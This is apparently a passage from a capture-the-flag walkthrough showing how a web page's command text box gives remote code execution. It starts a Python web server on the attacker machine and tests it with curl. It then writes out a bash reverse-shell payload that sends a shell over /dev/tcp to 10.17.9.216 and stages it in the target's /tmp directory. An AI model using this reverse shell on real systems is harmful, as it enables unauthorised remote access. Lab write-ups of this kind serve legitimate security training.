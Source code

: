 ![Desktop View](/assets/nyfl/exec.png){: width="900" height="500" }

# Remote Code Execution

This page allows us to execute commands through a text box. To verify this, I used a Python server for testing.

``` python3 -m http.server 1001 ```

Now the we have started the python server, lets browse it from the text box.

```shell
curl http://[Kali Machine IP]:1001
```
![Desktop View](/assets/nyfl/curl.png){: width="900" height="500" }
We can see the connection has been successful made with our machine from the web server. Now lets see how we can get into the web server by executing command remotly.

Lets create the payload with bash script:

```bash
#! /bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.17.9.216/1001 <&1'
```
Save the file as ```shell.sh``` and start the python server from the file location. Once we started the server now lets browse this file from the text field and save it inside the remote server's tmp directory.
